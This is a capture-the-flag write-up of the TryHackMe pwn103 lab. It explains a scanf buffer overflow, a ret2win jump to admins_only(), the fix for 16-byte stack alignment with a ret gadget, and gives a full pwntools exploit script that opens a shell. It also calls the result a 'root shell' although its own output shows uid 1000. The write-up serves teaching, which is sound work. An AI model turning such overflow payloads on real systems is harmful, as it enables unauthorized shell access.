# TryHackMe — pwn103

* **Room:** [TryHackMe — pwn101](https://tryhackme.com/room/pwn101)  
* **Category:** Binary Exploitation  
* **Difficulty:** Easy  
* **Date:** 2026-11-14  
* **Tools:** `file`, `checksec`, IDA Pro, `gdb` + `pwndbg`, `ROPgadget`, `pwntools`, Python 3  
* **Binary:** 64-bit ELF (`pwn103-1644300337872.pwn103`) — not redistributed (TryHackMe content)  

---

## TL;DR

In this challenge, we perform a classic **ret2win** attack by exploiting an unbounded `scanf("%s", ...)` in the `general()` channel handler to hijack the saved return address (`saved RIP`) and redirect execution to a hidden win function, `admins_only()`. 

However, jumping straight to `admins_only()` crashes the process! The core lesson of this lab lies in the **x86-64 System V AMD64 ABI 16-byte stack alignment mandate**: standard 64-bit glibc functions (specifically `system()`) utilize SIMD SSE instructions like `movaps`, which strictly require the stack pointer (`RSP`) to be aligned to a 16-byte boundary (`RSP % 16 == 0`). A direct jump causes `RSP` to end in `0x8`, triggering a `SIGSEGV`. We resolve this by inserting a single `ret` gadget before `admins_only()`, aligning the stack and cleanly spawning `/bin/sh`.

---

## Recon

We begin by checking file properties and enabled exploit mitigations using `file` and `checksec`:



Key observations:
* **File Type:** ELF 64-bit LSB executable, x86-64, dynamically linked, not stripped.
* **Canary:** `No canary found` — Stack buffer overflow can overwrite the frame pointer and saved return address without triggering `__stack_chk_fail`.
* **NX:** `NX enabled` — The stack is marked non-executable, preventing direct shellcode execution.
* **PIE:** `No PIE (0x400000)` — Code and function addresses are fixed at static locations in memory, eliminating the need to leak a base address.
* **RELRO:** `Partial RELRO` — Internal GOT structures are located at predictable addresses.

---

## Static Analysis & The Menu System

### 1. The Channel Routing in `main()`

When run, the binary presents a discord-like channel selection menu:
1. `📢 Announcements`
2. `📜 Rules`
3. `🗣️ General`
4. `🗨️ rooms discussion`
5. `🤖 Bot commands`

Examining `main()` (`0x40158c`), the binary reads our choice and dispatches execution via a jump table:
* Selecting option `3` calls `general()` at address `0x4012be`.

### 2. Identifying the Vulnerability in `general()`

Opening the binary in IDA Pro reveals the logic of `general()`:



In `general()`, the program prints a greeting and prompts for text input:
```c
int general()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF

  puts("🗣️  General channel");
  puts("-----------------------");
  ...
  printf("Say something [y/n]: ");
  __isoc99_scanf("%s", v1);
  if ( !strcmp(v1, "yes") )
  {
    puts("haha not that easy!");
    return main();
  }
  puts("bye!");
  return 0;
}
```

The function reads our response into a 32-byte local array `v1` at `[rbp-0x20]` using `__isoc99_scanf("%s", v1)` without any length limit. Entering any string not equal to `"yes"` prints `"bye!"` and executes the function epilogue (`leave; ret`), returning to `main()`.

### 3. Finding the Win Function: `admins_only()`

Inspecting the symbol table reveals a suspicious unreferenced function named `admins_only()`:



Checking its address and contents in `pwndbg`:



```assembly
pwndbg> p admins_only
$1 = {<text variable, no debug info>} 0x401554 <admins_only>
```

Disassembling `admins_only()` at `0x401554`:
```assembly
0x0000000000401554 <+0>:   push   rbp
0x0000000000401555 <+1>:   mov    rbp, rsp
0x0000000000401558 <+4>:   sub    rsp, 0x10
0x000000000040155c <+8>:   lea    rax, [rip+0x1d04]        # "[#] Admin Shell"
0x0000000000401563 <+15>:  mov    rdi, rax
0x0000000000401566 <+18>:  call   puts@plt
0x000000000040156b <+23>:  lea    rax, [rip+0x1d0a]        # "sh-5.0$"
0x0000000000401572 <+30>:  mov    rdi, rax
0x0000000000401575 <+33>:  call   puts@plt
0x000000000040157a <+38>:  lea    rax, [rip+0x1d0e]        # "/bin/sh"
0x0000000000401581 <+45>:  mov    rdi, rax
0x0000000000401584 <+48>:  call   system@plt
0x0000000000401589 <+53>:  nop
0x000000000040158a <+54>:  leave
0x000000000040158b <+55>:  ret
```

The function `admins_only` prints a banner and directly calls `system("/bin/sh")`. Because PIE is disabled, its address `0x401554` is completely static!

---

## Vulnerability Analysis & Stack Offset

Inspecting the assembly of `general()` shows how the local buffer is allocated:



```assembly
0x00000000004012be <+0>:   push   rbp
0x00000000004012bf <+1>:   mov    rbp, rsp
0x00000000004012c2 <+4>:   sub    rsp, 0x20              # 32 bytes allocated for buffer
...
0x0000000000401316 <+88>:  lea    rax, [rbp-0x20]        # Buffer starts at rbp - 0x20
0x000000000040131a <+92>:  mov    rsi, rax
0x000000000040131d <+95>:  lea    rax, [rip+0x1138]      # "%s"
0x0000000000401324 <+102>: mov    rdi, rax
0x000000000040132c <+110>: call   __isoc99_scanf@plt
```

### Stack Frame Layout:

```text
  Lower Memory Addresses
  +-----------------------------------+  <- [rbp - 0x20] (Buffer start)
  |                                   |
  |     v1 buffer (32 bytes)          |
  |                                   |
  +-----------------------------------+  <- [rbp] (Saved RBP)
  |     Saved RBP (8 bytes)           |
  +-----------------------------------+  <- [rbp + 0x08] (Saved RIP)
  |     Saved Return Address (RIP)    |
  +-----------------------------------+
  Higher Memory Addresses
```

We compute the exact offset required to reach the saved return address:
$$\text{Offset} = \text{Buffer Size} + \text{Saved RBP Size} = 0x20 + 0x8 = 32 + 8 = 40 \text{ bytes}$$

We verify this calculation in Python:



```python
>>> 0x8 + 0x20
40
```

---

## The 16-Byte Stack Alignment Trap

### 1. Naive Ret2Win Attempt (and why it fails)

With the offset determined to be 40 bytes and `admins_only()` located at `0x401554`, our natural initial instinct is to construct a simple ret2win payload:

```python
payload = b"A" * 40 + p64(0x401554)
```

However, executing this payload against the target crashes with a segmentation fault (`SIGSEGV`):



### 2. Debugging the Crash in GDB

Attaching `pwndbg` to observe the failure reveals the root cause:




The crash does **not** occur at the return address itself—execution successfully enters `admins_only()`, prints the banner, and enters glibc's `do_system()`. 

The crash occurs inside an internal glibc instruction:
```assembly
movaps XMMWORD PTR [rsp + 0x...], xmm...
```

### 3. The x86-64 System V AMD64 ABI Mandate

> [!IMPORTANT]
> **The 16-Byte Stack Alignment Mandate:**  
> According to the **System V AMD64 ABI**, the stack pointer (`RSP`) must always be **16-byte aligned** (`RSP % 16 == 0`) immediately before a `call` instruction is executed.

When a standard `call func` instruction executes:
1. The CPU pushes an 8-byte return address onto the stack $\rightarrow$ `RSP % 16 == 8` upon entry to `func`.
2. The function prologue executes `push rbp` (RSP -= 8) $\rightarrow$ `RSP % 16 == 0`.
3. The function allocates local space in multiples of 16 (e.g. `sub rsp, 0x10`) $\rightarrow$ `RSP % 16 == 0` is maintained before any subsequent `call`.

#### What happened in our exploit?
When `general()` returns:
1. `general()` executes `leave` (`mov rsp, rbp; pop rbp`), popping the saved RBP.
2. `general()` executes `ret`, popping our forged return address into `RIP`.
3. Because `admins_only()` was reached via a **`ret`** rather than a **`call`**, no return address was pushed by a `call` instruction!
4. Inside `admins_only`:
   * `push rbp` $\rightarrow$ `RSP % 16 == 8`
   * `sub rsp, 0x10` $\rightarrow$ `RSP % 16 == 8`
   * `call system@plt` $\rightarrow$ pushes 8 bytes, so upon entry to `system`, `RSP % 16 == 0`.
   * But inside `do_system`, additional pushes make `RSP % 16 == 8` at the site of `movaps`!
5. **The `movaps` Instruction:** The SSE instruction `movaps` (Move Aligned Packed Single-Precision Floating-Point Values) strictly enforces 16-byte memory alignment. If `RSP` is not divisible by 16, the processor throws an immediate General Protection Fault (`#GP`), resulting in `SIGSEGV`.

### 4. The Fix: Stack Alignment via a `ret` Gadget

To fix the alignment, we must adjust `RSP` by **8 bytes** before entering `admins_only()`.

We search the binary for a standalone `ret` instruction using `ROPgadget`:



```bash
$ ROPgadget --binary pwn103-1644300337872.pwn103 --only ret
Gadgets information
============================================================
0x0000000000401016 : ret
0x0000000000401072 : ret 0x3f

Unique gadgets found: 2
```

We found a clean `ret` gadget at `0x401016`.

By prepending `0x401016` to our target address:
$$\text{Payload} = \underbrace{\text{b"A" * 40}}_{\text{Padding to RIP}} + \underbrace{\text{p64(0x401016)}}_{\text{ret gadget}} + \underbrace{\text{p64(0x401554)}}_{\text{admins\_only}}$$

Execution flow:
1. `general()` executes `ret` $\rightarrow$ jumps to `0x401016` (`ret` gadget). `RSP` increases by 8.
2. The `ret` gadget executes immediately $\rightarrow$ pops `0x401554` into `RIP` and jumps to `admins_only()`. `RSP` increases by another 8.
3. This extra 8-byte step flips `RSP % 16` by exactly 8 bytes, perfectly satisfying the 16-byte alignment requirement for `movaps` inside `system()`!




---

## Exploit

Here is the complete exploit script:

```python
#!/usr/bin/env python3
"""
TryHackMe — pwn103 Exploit Script
Vulnerability: Unbounded scanf("%s") Buffer Overflow in general()
Technique: ret2win with 16-byte stack alignment gadget (ret sled)
"""

from pwn import *

exe = "./pwn103-1644300337872.pwn103"
elf = context.binary = ELF(exe, checksec=False)

HOST = args.HOST or "10.10.x.x"
PORT = int(args.PORT or 9003)

p = remote(HOST, PORT) if args.REMOTE else process(exe)

# Target addresses
# admins_only contains: call system("/bin/sh")
admin_addr = 0x401554
# Standalone ret gadget to fix 16-byte stack alignment for movaps in glibc system()
ret_gadget = 0x401016

# Step 1: Navigate menu -> Channel 3 (General)
p.recvuntil(b"Choose the channel: ")
p.sendline(b"3")

# Step 2: Buffer overflow in general()
# Buffer is at [rbp-0x20] (32 bytes) + saved RBP (8 bytes) = 40 bytes offset
# Payload: 40 bytes padding + ret gadget (alignment) + admins_only
payload = b"A" * 40 + p64(ret_gadget) + p64(admin_addr)

p.recvuntil(b"[y/n]: ")
p.sendline(payload)

# Step 3: Interactive shell
p.interactive()
```

*(The full script is located in [`exploit.py`](file:///home/thang/thm-writeups/pwn101/pwn103/exploit.py)).*

---

## Flag

Running the exploit with the stack alignment gadget drops cleanly into a root shell:

```bash
[+] Starting local process './pwn103-1644300337872.pwn103': pid 39639
[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat flag.txt
THM{redacted}
```

> **Flag:** `THM{redacted}` *(Redacted in accordance with TryHackMe writeup policies)*.

---

## Key Takeaways & Lessons

1. **The x86-64 16-Byte Stack Alignment Rule (MOVAPS Issue):**  
   Whenever an x86-64 ROP chain or ret2win exploit mysteriously crashes inside `system()`, `printf()`, or other glibc routines despite correct control flow, the cause is almost always stack misalignment. SIMD instructions like `movaps` will crash the process if the memory address accessed via `RSP` is not a multiple of 16.
2. **The `ret` Gadget Trick:**  
   The simplest and most reliable way to shift the stack pointer by 8 bytes without corrupting registers or memory is inserting a single `ret` gadget right before the function address in your ROP chain.
3. **Channel/Menu Routing in CTF Binaries:**  
   In menu-driven binaries, vulnerabilities are often tucked inside specific submenu options. Tracing the dispatcher jump table in `main()` allows targeted navigation directly to the vulnerable function (`general()`).
